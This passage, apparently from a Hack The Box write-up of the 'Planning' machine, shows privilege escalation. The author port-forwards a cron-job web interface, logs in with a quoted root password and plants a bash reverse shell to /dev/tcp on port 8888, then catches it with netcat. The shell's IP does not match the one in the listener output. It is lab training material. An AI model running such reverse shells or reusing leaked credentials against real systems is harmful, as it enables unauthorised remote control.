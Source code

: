
It looks like there’s a web server running on port 8000. I've set up port forwarding to my kali machine to access the service on port 8000.

```kali-terminal
┌──(kali㉿kali)-[~/Desktop/HTB_Machines/Planning]
└─$ ssh -L 8000:localhost:8000 enzo@planning.htb
enzo@planning.htb's password:
```
I just entered enzo's password and I'm in.

To access the server, I just accessed the localhost on port 8000 on my kali's browser. After that I'm prompted to enter the username and password that we got from the crontab.db. Which are:

"root:P4ssw0rdS0pRi0T3c"

Then we can see this page:
![Planning image](../Pasted%20image%2020250720164325.png)


As you can see, there was a created cronjobs with a random name and it contains our shell which is the "bash -c 'exec bash -i &>/dev/tcp/10.10.14.99/8888 <&1'"

I clicked the new button then entered that command in the command field. I saved it then ran a netcat listener on port 8888. Then go back to the cronjobs page and execute the reverse shell.

On my netcat listener, I got the connection and navigate to read the root.txt file.

```kali-terminal
┌──(kali㉿kali)-[~/Desktop/HTB_Machines/Planning]
└─$ nc -lnvp 8888                                 
listening on [any] 8888 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.11.68] 53322
bash: cannot set terminal process group (1455): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/# ls
ls
bin
bin.usr-is-merged
boot
cdrom
dev
etc
home
lib
lib64
lib.usr-is-merged
lost+found
media
mnt
```